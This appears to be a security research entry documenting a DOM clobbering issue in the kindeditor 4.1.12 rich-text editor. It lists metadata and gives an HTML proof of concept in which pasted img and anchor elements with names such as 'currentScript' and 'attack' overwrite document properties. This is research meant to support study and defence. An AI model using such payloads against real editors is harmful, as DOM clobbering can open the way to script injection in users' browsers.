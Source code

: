 ## kindeditor

### Meta

+ Library: kindeditor
+ Version: v4.1.12
+ Stars: 1.9K
+ Fingerprint: `window.KindEditor !== undefined`
+ Input: Copy&Paste
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/kindsoft/kindeditor
http://kindeditor.net/demo.php

### Vulnerable Code Snippet

N/A

### PoC 

```html
<!--Library-->
<script src="./kindeditor-all-min.js"></script>
<textarea id="editor_id" name="content" style="width:700px;height:300px;">HELLOWORLD!  </textarea>
<script> KindEditor.ready(function(K) { window.editor = K.create('#editor_id');}); </script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy&Paste the following rendered HTML elements to the editor and check the editor in the debugging console: `html = editor.html();`.</p>
<!--Payload-->
```